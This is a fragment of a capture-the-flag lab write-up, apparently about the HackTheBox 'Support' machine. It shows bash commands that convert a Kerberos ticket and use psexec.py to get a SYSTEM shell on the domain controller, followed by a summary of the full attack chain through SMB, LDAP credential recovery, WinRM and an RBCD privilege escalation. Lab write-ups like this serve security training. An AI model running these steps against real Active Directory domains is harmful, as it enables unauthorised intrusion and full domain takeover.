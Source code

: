 ```bash
# 1. Convert Kerberos ticket
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache

# 2. Use ticket to get Administrator shell
export KRB5CCNAME=ticket.ccache
psexec.py support.htb/administrator@dc.support.htb -k -no-pass
# → NT AUTHORITY\SYSTEM obtained!
```

---

## 🔗 Attack Chain Summary

<div class="bg-white dark:bg-dark-navbar p-8 rounded-xl shadow-lg my-8">
    <h3 class="text-2xl font-bold text-portfolio-violet mb-6 flex items-center">
        <i class="fas fa-project-diagram mr-3"></i>Complete Attack Path
    </h3>
    <div class="space-y-4">
        <div class="flex items-center gap-4 p-4 bg-blue-50 dark:bg-blue-900/20 rounded-lg border-l-4 border-blue-500">
            <div class="text-3xl font-bold text-blue-500">1</div>
            <div class="flex-1">
                <div class="font-bold text-blue-600 dark:text-blue-400">Reconnaissance and SMB Access</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">Nmap → Anonymous SMB → UserInfo.exe.zip</div>
            </div>
        </div>
        <div class="flex items-center gap-4 p-4 bg-green-50 dark:bg-green-900/20 rounded-lg border-l-4 border-green-500">
            <div class="text-3xl font-bold text-green-500">2</div>
            <div class="flex-1">
                <div class="font-bold text-green-600 dark:text-green-400">Reverse Engineering</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">ILSpy → XOR Decryption → LDAP Credentials</div>
            </div>
        </div>
        <div class="flex items-center gap-4 p-4 bg-purple-50 dark:bg-purple-900/20 rounded-lg border-l-4 border-purple-500">
            <div class="text-3xl font-bold text-purple-500">3</div>
            <div class="flex-1">
                <div class="font-bold text-purple-600 dark:text-purple-400">LDAP Enumeration and WinRM</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">ldapsearch → info attribute → WinRM support</div>
            </div>
        </div>
        <div class="flex items-center gap-4 p-4 bg-red-50 dark:bg-red-900/20 rounded-lg border-l-4 border-red-500">
            <div class="text-3xl font-bold text-red-500">4</div>
            <div class="flex-1">
                <div class="font-bold text-red-600 dark:text-red-400">Privilege Escalation</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">BloodHound → GenericAll → RBCD Attack → SYSTEM</div>
            </div>
        </div>
    </div>
</div>

---